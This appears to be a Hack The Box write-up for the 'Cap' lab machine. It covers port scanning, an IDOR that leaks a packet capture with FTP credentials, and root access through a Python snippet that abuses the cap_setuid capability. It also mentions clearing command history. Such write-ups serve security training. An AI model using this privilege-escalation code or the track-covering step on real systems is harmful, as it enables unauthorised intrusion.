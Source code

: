# HTB: Cap

## Engagement Overview

**Target:** Cap
**Box IP:** 10.10.10.245
**Local IP:** 10.10.14.16
**Date:** 2025-07-21

---

### Objectives

- Discover and exploit an IDOR to access sensitive captures
- Extract credentials from a packet capture (pcap)
- Use leaked credentials to obtain a shell and escalate to root via Linux capabilities

---

## Service Enumeration

```bash
# Full TCP scan (condensed)
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.245
nmap -p 21,22,80 -sCV -oA scans/nmap-tcpscripts 10.10.10.245
```

**Relevant outputs / findings:**

- Port 21 – FTP (vsftpd 3.0.3) — no anonymous access
- Port 22 – SSH (OpenSSH 8.2p1)
- Port 80 – HTTP (Gunicorn, Python-based web app)
- Gunicorn dashboard and predictable `/data/<id>` endpoints indicated possible IDOR

---

## Initial Access

### IDOR Discovery & PCAP Extraction

- Accessing `/data/0` returned a packet capture (pcap) not generated by current session — classic IDOR.
- Downloaded pcap and analyzed in Wireshark to recover cleartext credentials:
  - `USER: nathan`
  - `PASS: Buck3tH4TF0RM3!`

### Foothold via FTP/SSH

```bash
ftp 10.10.10.245
# login: nathan / Buck3tH4TF0RM3!
ftp> get user.txt  # user flag retrieved: e64084b4cf1836347593df12f6a16b75
```
- SSH access confirmed using same credentials for `nathan`

---

## Privilege Escalation

### LinPEAS findings

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

Because `python3.8` has the `cap_setuid` capability, it can be used to escalate privileges by changing UID to 0 and spawning a shell.

**Exploit (performed on target):**
```python
import os
os.setuid(0)
os.system("/bin/bash")
```

**Result:** Root shell obtained. `root.txt` captured: `f0f8a2a1d4bfdea7688e471cf3ad04a4`

---

## House Cleaning / Post-Exploitation

- Removed `linpeas.sh` and cleared command history where appropriate
- No persistent backdoors left

**Flags:**
- `user.txt`: `e64084b4cf1836347593df12f6a16b75`
- `root.txt`: `f0f8a2a1d4bfdea7688e471cf3ad04a4`

---

## Tools Utilized
- nmap, ftp, ssh, python3
- Wireshark
- LinPEAS

---

## Key Takeaways
- IDORs exposing resources like pcaps can leak highly sensitive credentials.
- Linux capabilities (caps) provide alternate privilege escalation routes beyond setuid binaries.
- Packet analysis skills (Wireshark) are critical for extracting cleartext credentials from captures.
